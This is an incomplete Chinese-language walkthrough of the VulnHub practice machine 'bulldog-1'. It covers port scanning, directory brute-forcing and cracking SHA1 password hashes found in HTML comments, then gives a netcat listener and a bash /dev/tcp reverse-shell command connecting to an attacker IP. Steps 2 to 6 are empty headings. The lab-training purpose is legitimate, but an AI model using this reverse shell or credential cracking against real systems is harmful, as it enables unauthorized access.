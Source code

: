 # VulnHub: bulldog-1
- https://www.vulnhub.com/entry/bulldog-1,211/
## Walkthrough
### Step 1
使用VirtualBox開啟虛擬機，可自動取得靶機ip
利用nmap掃port，http端口80、8080，ssh端口23皆為開放狀態
DirBuster爆破目錄，發現在/dev/中的source code有提示
> <!--Need these password hashes for testing. Django's default is too complex-->
	<!--We'll remove these in prod. It's not like a hacker can do anything with a hash-->
把註解中的password拿去sha1 decode，求出nick跟sarah的password
試探用database(sarah)去登/admin/，成功，但無編輯權限
發現/dev/shell網頁，登入sarah後擁有權限，試圖用bash反彈shell，失敗，最後用echo成功
攻擊機:`nc -l 3333`
靶機shell欄位:`echo "bash -i >& /dev/tcp/10.10.10.10/3333 0>&1" | bash`
查看可疑user，發現bulldogadmin和django
查看bulldogadmin文件，發現可疑目錄/home/bulldogadmin/.hiddenadmindirectory
### Step 2
### Step 3
### Step 4
### Step 5
### Step 6
